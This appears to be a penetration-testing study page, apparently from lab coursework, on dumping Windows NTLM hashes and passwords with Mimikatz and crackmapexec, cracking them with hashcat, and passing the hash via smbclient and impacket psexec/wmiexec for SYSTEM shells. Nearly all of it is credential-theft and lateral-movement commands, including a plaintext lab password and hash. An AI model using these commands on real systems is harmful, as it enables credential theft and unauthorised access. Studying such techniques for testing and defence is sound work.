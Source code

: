 # NLTM

SAM database - **C:\Windows\system32\config\sam**&#x20;

## Mimikatz

* located at **C:\tools\mimikatz.exe**

{% hint style="danger" %}
can only extract passwords if  running Mimikatz as Administrator (or higher) and have the [_SeDebugPrivilege_](https://devblogs.microsoft.com/oldnewthing/20080314-00/?p=23113) access right enabled
{% endhint %}

Determine which users exist locally:&#x20;

```
Get-LocalUser
```



Enable <mark style="color:purple;">SeDebugPrivilege</mark>, elevating to SYSTEM user privileges and extract NTLM hashes:

{% code title="mimikatz" overflow="wrap" %}
```powershell
privilege::debug

token::elevate

lsadump::sam
```
{% endcode %}

Attempt to extract plaintext passwords:

```
sekurlsa::logonpasswords
```

## Crackmapexec

{% code overflow="wrap" %}
```sh
crackmapexec smb 192.168.105.95 -u Eric.Wallows -p 'EricLikesRunning800' -d SECURA --sam
```
{% endcode %}

## Cracking NLTM hashes

get correct hashcat mode for NLTM:

```sh
hashcat --help | grep -i "ntlm"
```

Crack hash:

{% code overflow="wrap" %}
```sh
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

## Passing NLTM hashes

Connect to SMB with NLTM hash:

{% code overflow="wrap" %}
```sh
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
{% endcode %}

* &#x20;**--pw-nt-hash:** indicates the hash

Use the **psexec.py** script from the impacket library with NLTM hash to get an interactive shell:

{% code overflow="wrap" %}
```sh
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
{% endcode %}

* **00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b**: format is "LMHash:NTHash". Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
* receive a shell as SYSTEM

Use the **wmiexec.py** script from the impacket library with NLTM hash to get an interactive shell as the user used for authentication:

{% code overflow="wrap" %}
```sh
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
whoami
```
{% endcode %}

* LMHash:NTHash hash format
* receive shell as Administrator

